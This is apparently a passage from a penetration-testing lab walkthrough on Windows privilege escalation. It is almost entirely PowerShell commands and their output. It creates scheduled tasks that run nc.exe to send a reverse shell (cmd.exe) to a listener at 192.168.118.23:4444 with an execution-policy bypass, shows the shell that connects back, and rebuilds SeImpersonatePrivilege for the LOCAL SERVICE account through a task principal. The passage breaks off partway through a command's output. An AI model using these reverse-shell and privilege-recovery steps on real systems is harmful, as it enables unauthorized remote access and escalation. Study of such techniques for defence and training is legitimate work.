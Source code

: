 ```
PS C:\wamp\www> $TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.118.23 4444 -e cmd.exe`""

PS C:\wamp\www> Register-ScheduledTask -Action $TaskAction -TaskName "GrantPerm"

TaskPath                                       TaskName                          State     
--------                                       --------                          -----     
\                                              GrantPerm                         Ready     

PS C:\wamp\www> Start-ScheduledTask -TaskName "GrantPerm"
```

We receive a connection to our listener and check if the `LOCAL SERVICE` account has all default privileges.

```
Ncat: Connection from 192.168.120.223.
Ncat: Connection from 192.168.120.223:50828.
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                        State   
============================= ================================== ========
SeAssignPrimaryTokenPrivilege Replace a process level token      Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process Disabled
SeSystemtimePrivilege         Change the system time             Disabled
SeAuditPrivilege              Generate security audits           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking           Enabled 
SeCreateGlobalPrivilege       Create global objects              Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set     Disabled
SeTimeZonePrivilege           Change the time zone               Disabled

C:\Windows\system32>
```

Reading through the privileges we have now, it's confirmed that the `SeImpersonatePrivilege` is missing but that can be retrieved by creating a `ScheduledTaskPrincipal` where we can specify `SeImpersonatePrivilege` in `RequiredPrivilege` attribute.

```
# Create a list of privileges
PS C:\Windows\system32> [System.String[]]$Privs = "SeAssignPrimaryTokenPrivilege", "SeAuditPrivilege", "SeChangeNotifyPrivilege", "SeCreateGlobalPrivilege", "SeImpersonatePrivilege", "SeIncreaseWorkingSetPrivilege"

# Create a Principal for the task 
PS C:\Windows\system32> $TaskPrincipal = New-ScheduledTaskPrincipal -UserId "LOCALSERVICE" -LogonType ServiceAccount -RequiredPrivilege $Privs

# Create an action for the task 
PS C:\Windows\system32> $TaskAction = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-Exec Bypass -Command `"C:\wamp\www\nc.exe 192.168.118.23 4444 -e cmd.exe`""

# Create the task
PS C:\Windows\system32> Register-ScheduledTask -Action $TaskAction -TaskName "GrantAllPerms" -Principal $TaskPrincipal

TaskPath                                       TaskName                          State     
--------                                       --------                          -----     
```